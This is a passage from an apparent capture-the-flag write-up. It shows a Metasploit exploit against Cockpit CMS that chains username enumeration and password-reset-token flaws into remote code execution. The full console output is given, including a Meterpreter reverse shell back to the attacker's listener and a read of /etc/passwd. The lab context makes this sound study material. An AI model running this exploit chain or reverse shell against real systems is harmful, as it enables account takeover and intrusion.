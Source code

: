 Now we have  4 users `admin`, `darkStar7471`, `skidy` and `ekoparty`.

Onto the second part of the exploit i.e password reset

Update the `USER` value in msf to `admin` to reset admin's password and re-run the exploit to get a shell !

```bash
msf6 exploit(multi/http/cockpit_cms_rce) > set USER admin
USER => admin
msf6 exploit(multi/http/cockpit_cms_rce) > run

[*] Started reverse TCP handler on 10.17.6.87:4444 
[*] Attempting Username Enumeration (CVE-2020-35846)
[+]   Found users: ["admin", "darkStar7471", "skidy", "ekoparty"]
[*] Obtaining reset tokens (CVE-2020-35847)
[+]   Found tokens: ["rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23"]
[*] Checking token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*] Obtaining user info
[*]   user: admin
[*]   name: Admin
[*]   email: admin@yourdomain.de
[*]   active: true
[*]   group: admin
[*]   password: $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*]   i18n: en
[*]   _created: 1621655201
[*]   _modified: 1621655201
[*]   _id: 60a87ea165343539ee000300
[*]   _reset_token: rp-d72d501f6207ac757ac3cb114d1a0a4760a88abe28f23
[*]   md5email: a11eea8bf873a483db461bb169beccec
[+] Changing password to A98N9259vM
[+] Password update successful
[*] Attempting login
[+] Valid cookie for admin: 8071dec2be26139e39a170762581c00f=urekd0hbqla32mqdr1rq1ppnhm;
[*] Attempting RCE
[*] Sending stage (39282 bytes) to 10.10.103.36
[*] Meterpreter session 1 opened (10.17.6.87:4444 -> 10.10.103.36:38906) at 2021-12-25 08:22:49 -0500

meterpreter > shell
Process 916 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

There are 2 users on the machine `stux` & `root`
```bash
www-data@ubuntu:/var/www/html/cockpit/assets/app/js$ cat /etc/passwd | grep "bash"       

root:x:0:0:root:/root:/bin/bash
stux:x:1000:1000:Coock,,,:/home/stux:/bin/bash
```
## webflag 🚩
